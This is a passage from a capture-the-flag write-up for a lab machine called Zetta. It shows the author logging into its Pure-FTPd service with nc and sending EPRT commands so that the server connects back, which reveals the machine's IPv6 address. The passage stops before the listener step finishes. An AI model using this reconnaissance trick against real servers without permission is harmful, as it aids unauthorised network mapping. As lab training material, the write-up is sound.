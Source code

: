 #### Learn Zetta IPv6

First, I noticed all the hints towards IPv6 earlier, but I don't have a
way to scan Zetta on IPv6 without knowing it's IPv6 address. I can
bounce back to myself on IPv6 and see the address that connects.

I'll need to know my IPv6 address:



    root@kali# ip addr show dev tun0
    3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
        link/none 
        inet 10.10.14.5/23 brd 10.10.15.255 scope global tun0
           valid_lft forever preferred_lft forever
        inet6 dead:beef:2::1003/64 scope global 
           valid_lft forever preferred_lft forever
        inet6 fe80::fb67:c55a:83d8:dcc1/64 scope link stable-privacy 
           valid_lft forever preferred_lft forever



I'll connect to Zetta on FTP using `nc`:



    root@kali# nc 10.10.10.156 21
    220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
    220-You are user number 2 of 500 allowed.
    220-Local time is now 03:36. Server port: 21.
    220-This is a private system - No anonymous login
    220-IPv6 connections are also welcome on this server.
    220 You will be disconnected after 15 minutes of inactivity.
    USER bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
    331 User bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb OK. Password required
    PASS bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
    230-This server supports FXP transfers
    230-OK. Current restricted directory is /
    230-0 files used (0%) - authorized: 10 files
    230 0 Kbytes used (0%) - authorized: 1024 Kb



Now I'll enter a `EPRT` command to tell the server where to connect
using the [RFC-2428 syntax](https://tools.ietf.org.md/rfc2428) and my
global IPv6:



    EPRT |2|dead:beef:2::1003|443
    501 Sorry, but I won't connect to ports < 1024
    EPRT |2|dead:beef:2::1003|2222
    200-FXP transfer: from 10.10.14.5 to dead:beef:2::1003%144
    200 PORT command successful



It's worth noting that this server won't connect to ports under 1024. So
I pick a high one. Now I'll start a `nc` listener on 4433 and run
`LIST`. It fails on the FTP server:
